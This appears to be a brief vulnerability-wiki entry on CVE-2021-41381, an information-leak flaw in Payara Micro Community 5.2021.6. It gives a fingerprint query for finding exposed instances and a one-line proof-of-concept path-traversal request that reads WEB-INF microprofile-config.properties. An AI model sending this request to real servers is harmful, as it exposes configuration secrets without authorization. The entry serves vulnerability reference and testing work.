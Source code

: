 ```yaml
---
title: PayaraMicro microprofile-config.properties Information Leakage Vulnerability CVE-2021-41381
---
```


# PayaraMicro microprofile-config.properties Information Leakage Vulnerability CVE-2021-41381

## Vulnerability Description

If the PayaraMicro microprofile-config.properties file is configured incorrectly, it can be read by any user to obtain sensitive information.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Payara Micro Community 5.2021.6</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="Payara-Micro"</span>

## Vulnerability reappears

Product Page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633094689200-c5ef35c0-8611-4d3b-a900-d2c4ad2be72b.png)

Verify POC

```java
/.//WEB-INF/classes/META-INF/microprofile-config.properties
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633094812047-1a69a79c-0757-4941-b4da-b2763cbacc26.png)